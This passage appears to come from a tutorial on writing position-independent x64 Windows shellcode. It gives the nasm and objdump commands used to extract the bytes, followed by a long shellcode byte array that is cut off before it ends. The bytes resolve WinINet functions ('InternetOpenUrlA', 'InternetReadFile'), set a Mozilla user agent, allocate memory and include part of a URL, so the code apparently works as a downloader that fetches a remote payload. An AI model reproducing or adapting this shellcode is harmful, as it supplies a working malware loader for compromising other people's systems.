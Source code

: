 After you've successfully completed coding all of that glorious x64 assembly code, it's time to compile it and get your shellcode.  Go ahead and do that and you should be presented with the following shellcode. Here's how I usually generate shellcode:

```nasm
nasm -fwin64 picshellcode.asm -o picshellcode.o
for i in $(objdump -D picshellcode.o | grep “^ “ | cut -f2); do echo -n “\x$i” ; done
```

Here's what I got.  I formatted mine for a more aesthetically pleasing presentation 😸

```cpp
 unsigned char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41\x60\x48\x8b"
"\x40\x18\x48\x8b\x70\x10\x48\x8b\x36\x48\x8b\x36\x48\x8b\x5e\x30\x49\x89\xd8\x8b\x5b\x3c\x4c\x01\xc3"
"\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x44\x8b\x52\x14\x4d\x31\xdb"
"\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x89\xdd\x4c\x89\xd1\x67\xe3\x0e\x31\xdb\x41\x8b\x1c\x8b\x4c\x01\xc3"
"\x48\xff\xc9\xeb\x1e\xeb\x7f\xff\xc1\x4d\x31\xdb\x44\x8b\x5a\x1c\x4d\x01\xc3\x45\x8b\x3c\x8b\x4d\x01"
"\xc7\x41\x57\x4d\x89\xeb\xff\xc9\xeb\xd1\x31\xc0\x48\x89\xde\x48\x31\xdb\x8a\x1e\x84\xdb\x74\x0a\xc1"
"\xc0\x05\x31\xd8\x48\xff\xc6\xeb\xf0\x3d\x35\x8d\x77\x80\x74\xc5\x3d\xca\x5a\x15\x4a\x74\xbe\x3d\x78"
"\x95\xb7\x85\x74\xb7\x3d\x33\x8a\x8d\xb6\x74\xb0\x3d\x95\xfe\xde\xc7\x74\xa9\x3d\x1b\x01\xa1\xa4\x74"
"\xa2\x3d\x93\xb6\x36\xe5\x74\x9b\x3d\xa7\x70\xdb\xe3\x74\x94\x3d\xfd\x5a\xfc\xce\x74\x8d\x3d\x64\x71"
"\x27\xd7\x74\x86\xe9\x6e\xff\xff\xff\x48\xb8\x77\x69\x6e\x69\x6e\x65\x74\x90\x48\xc1\xe0\x08\x48\xc1"
"\xe8\x08\x50\x48\x89\xe1\x48\x83\xec\x28\x48\x8b\x44\x24\x50\xff\xd0\x48\x83\xc4\x30\x48\x89\xc7\x48"
"\x89\xf9\x48\xb8\x4f\x70\x65\x6e\x41\x90\x90\x90\x48\xc1\xe0\x18\x48\xc1\xe8\x18\x50\x48\xb8\x49\x6e"
"\x74\x65\x72\x6e\x65\x74\x50\x48\x89\xe2\x48\x83\xec\x30\x48\x8b\x44\x24\x58\x48\x89\xc6\xff\xd0\x48"
"\x83\xc4\x30\x49\x89\xc7\x48\x31\xc0\x50\x48\x89\xf9\x48\xb8\x4f\x70\x65\x6e\x55\x72\x6c\x41\x50\x48"
"\xb8\x49\x6e\x74\x65\x72\x6e\x65\x74\x50\x48\x89\xe2\x48\x83\xec\x38\xff\xd6\x48\x83\xc4\x30\x49\x89"
"\xc6\x48\x89\xf9\x48\x31\xc0\x50\x48\xb8\x52\x65\x61\x64\x46\x69\x6c\x65\x50\x48\xb8\x49\x6e\x74\x65"
"\x72\x6e\x65\x74\x50\x48\x89\xe2\x48\x83\xec\x38\xff\xd6\x48\x83\xc4\x30\x49\x89\xc5\x48\x89\xf9\xb8"
"\x64\x6c\x65\x90\xc1\xe0\x08\xc1\xe8\x08\x50\x48\xb8\x43\x6c\x6f\x73\x65\x48\x61\x6e\x50\x48\xb8\x49"
"\x6e\x74\x65\x72\x6e\x65\x74\x50\x48\x89\xe2\x48\x83\xec\x38\xff\xd6\x48\x83\xc4\x30\x49\x89\xc4\x48"
"\x31\xd2\xb8\x35\x2e\x30\x90\xc1\xe0\x08\xc1\xe8\x08\x50\x48\xb8\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x50"
"\x48\x89\xe1\xba\x01\x00\x00\x00\x4d\x31\xc0\x4d\x31\xc9\x48\xc7\x44\x24\x20\x00\x00\x00\x00\x48\x83"
"\xec\x30\x41\xff\xd7\x48\x83\xc4\x30\x48\x89\xc7\xb9\x00\x00\x00\x00\xba\x00\x50\x00\x00\x41\xb8\x00"
"\x30\x00\x00\x41\xb9\x04\x00\x00\x00\x48\x83\xc4\x60\x48\x8b\x44\x24\x50\x48\x89\xc6\xff\xd0\x41\x5f"
"\xb9\x00\x00\x00\x00\xba\x00\x01\x00\x00\x41\xb8\x00\x30\x00\x00\x41\xb9\x04\x00\x00\x00\x48\x89\xf0"
"\xff\xd0\x50\x4c\x8b\x4c\x24\x48\x5e\x48\x81\xec\x98\x00\x00\x00\x48\xb8\x65\x67\x2e\x64\x79\x6e\x6f"
"\x90\x48\xc1\xe0\x08\x48\xc1\xe8\x08\x50\x48\xb8\x73\x2f\x6d\x61\x69\x6e\x2f\x72\x50\x48\xb8\x65\x66"
```